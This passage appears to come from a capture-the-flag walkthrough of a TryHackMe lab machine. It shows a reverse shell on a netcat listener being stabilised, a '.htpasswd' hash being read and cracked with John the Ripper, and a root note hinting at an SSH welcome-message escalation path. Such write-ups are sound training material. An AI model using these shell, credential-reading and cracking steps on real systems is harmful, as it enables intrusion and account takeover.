 ```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@osboxes:/var/www/html$ export TERM=screen
export TERM=xterm
www-data@osboxes:/var/www/html$ ^Z
zsh: suspended  nc -lnvp 443
                                                                                                                                                                                                                                            
┌──(root㉿kali)-[~]
└─# stty raw -echo;fg                             
[1]  + continued  nc -lnvp 443

www-data@osboxes:/var/www/html$
```

## Privilege escalation

`/var/www/html` directory contains file `.htpasswd` with a hash:

```bash
www-data@osboxes:/var/www/html$ cat .htpasswd 
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```

Crack it with JTR:

```
john -w=/usr/share/wordlists/rockyou.txt hash                    
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 XOP 4x2])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jamaica          (james)     
1g 0:00:00:00 DONE (2022-04-19 15:58) 11.11g/s 7111p/s 7111c/s 7111C/s hockey..pebbles
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Nice, we got a user.

Message from root inside james home directory:

```
james@osboxes:~$ cat Note-To-James.txt 
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it? 

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :) 

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

root
```
